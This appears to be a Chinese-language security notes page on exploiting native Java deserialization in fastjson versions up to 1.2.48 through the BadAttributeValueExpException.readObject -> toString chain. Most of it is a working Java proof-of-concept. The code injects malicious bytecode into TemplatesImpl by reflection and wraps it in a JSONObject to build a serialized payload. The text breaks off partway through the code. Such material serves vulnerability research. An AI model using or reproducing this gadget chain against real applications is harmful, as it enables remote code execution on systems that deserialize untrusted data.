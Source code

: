 JSON是个抽象类，JSONArray和JSONObject都是JSON的子类。所以利用的时候用JSONArray或者JSONObject封装都行。

JSONArray实际是个list形式；JSONObject实际是个map形式。下面均使用JSONObject

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250325172133278.png)

想办法触发到JSON.toString就能触发漏洞，手法还是挺多的



## fastjson <= 1.2.48

### 链子1：

```java
BadAttributeValueExpException.readObject -> toString
```

需要反序列化的对象用JSONObject.put或者JSONArray.add添加

POC：

```java

import com.alibaba.fastjson.JSONObject;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.management.BadAttributeValueExpException;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

//fastjson <= 1.2.48 原生反序列化
//BadAttributeValueExpException.readObject -> toString
public class BadAttributeValueExpException_1_2_48 {
    public static void main(String[] args) throws Exception{
        byte[] code1 = Files.readAllBytes(Paths.get("target/classes/TemplatesImpl_RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("templateClass",templatesClass);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field val = BadAttributeValueExpException.class.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,jsonObject);
        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
```